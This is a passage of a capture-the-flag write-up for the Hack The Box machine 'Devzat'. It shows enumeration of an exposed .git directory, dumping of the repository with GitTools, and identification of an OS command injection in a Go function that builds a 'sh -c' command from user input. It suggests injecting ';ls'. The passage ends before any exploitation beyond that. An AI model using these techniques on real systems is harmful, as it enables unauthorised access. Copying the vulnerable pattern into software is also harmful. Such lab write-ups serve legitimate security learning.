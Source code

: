 We will then add this virtual host to our ```/etc/hosts``` file.

```
10.10.11.118    devzat.htb    pets.devzat.htb
```

Using Gobuster, we will then enumerate the endpoints on http://pets.devzat.htb. From the output, there were a few interesting endpoints (mainly the ```.git``` directory). This meant that the git repositories are publicly accessible and we could possibly dump the git files using [GitTools](https://github.com/internetwache/GitTools)

```
http://pets.devzat.htb/.git/index.html      (Status: 301) [Size: 0] [--> ./]
http://pets.devzat.htb/.git/index           (Status: 200) [Size: 3884]
http://pets.devzat.htb/.git/HEAD            (Status: 200) [Size: 23]
http://pets.devzat.htb/.git/logs/           (Status: 200) [Size: 63]
http://pets.devzat.htb/.git                 (Status: 301) [Size: 41] [--> /.git/]
http://pets.devzat.htb/.git/config          (Status: 200) [Size: 92]
http://pets.devzat.htb/build                (Status: 301) [Size: 42] [--> /build/]
http://pets.devzat.htb/css                  (Status: 301) [Size: 40] [--> /css/]
http://pets.devzat.htb/server-status        (Status: 403) [Size: 280]
```
### Extracting git repository
We will first download the files found on http://pets.devzat.htb/.git to a ```.git``` folder before we extract the source code files.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/GitTools/Dumper]
└─$ ./gitdumper.sh http://pets.devzat.htb/.git/ /home/kali/Desktop/results/git

┌──(kali㉿kali)-[~/Desktop/results/git]
└─$ ls -la
total 12
drwxrwxrwx 3 kali kali 4096 Nov 28 11:27 .
drwxrwxrwx 4 root root 4096 Nov 28 11:27 ..
drwxr-xr-x 6 kali kali 4096 Nov 28 11:28 .git

┌──(HTB)─(kali㉿kali)-[~/Desktop/GitTools/Extractor]
└─$ ./extractor.sh /home/kali/Desktop/results/git /home/kali/Desktop/results/git 
```

### Code Analysis of git repository

Let's first start with main.go to find potential vulnerabilities. From the loadCharacter() function, we can see that the code uses an unsafe exec.Command without proper sanitization of inputs. This means that we can potentially use this to cause a OS command injection. 

In the code, ```cat characteristics/<species>``` is executed but there is no proper sanitization of the input string. This means that we can supply a ```;ls``` to actually cause the code to execute a ```ls``` command on backend server.

```
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
```
